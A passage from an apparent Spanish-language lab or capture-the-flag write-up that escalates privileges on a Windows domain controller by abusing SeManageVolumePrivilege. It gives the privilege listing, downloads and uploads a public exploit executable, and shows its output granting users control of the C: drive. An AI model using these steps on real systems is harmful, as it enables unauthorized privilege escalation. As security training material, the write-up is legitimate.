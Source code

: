 
## Abusing `SeManageVolumePrivilege`

Si listamos los privilegios locales que posee el usuario `ryan.k`, veremos el privilegio `SeManageVolumePrivilege`

> `SeManageVolumePrivilege` permite operaciones de administración de nivel de volumen específicas, como el volumen de bloqueo, la desfragmentación, el desmontaje del volumen y la configuración de la longitud de datos válida en Windows XP y versiones posteriores.
{: .notice--info}

~~~ bash
evil-winrm-py PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State  
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
~~~

Existe un exploit que podemos utilizar como prueba de concepto para otorgar control completo sobre todos los archivos del sistema, disponible desde el repositorio de [`CsEnox`](https://github.com/CsEnox/SeManageVolumeExploit) en `Github`.

Descargaremos el ejecutable disponible en `releases` de la siguiente manera en nuestra máquina para luego transferirla al DC

~~~ bash
# Locally
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe

# In powershell session
evil-winrm-py PS C:\Programdata> upload SeManageVolumeExploit.exe .
~~~


### Exploiting

Cuando ejecutemos el exploit, deberíamos ver el mensaje `DONE`.

~~~ powershell
evil-winrm-py PS C:\Programdata> .\SeManageVolumeExploit.exe
Entries changed: 858

DONE 
~~~

Si verificamos los permisos de la unidad `C:`, notaremos que ahora todos los usuarios del dominio tienen permisos sobre la unidad  `C:`
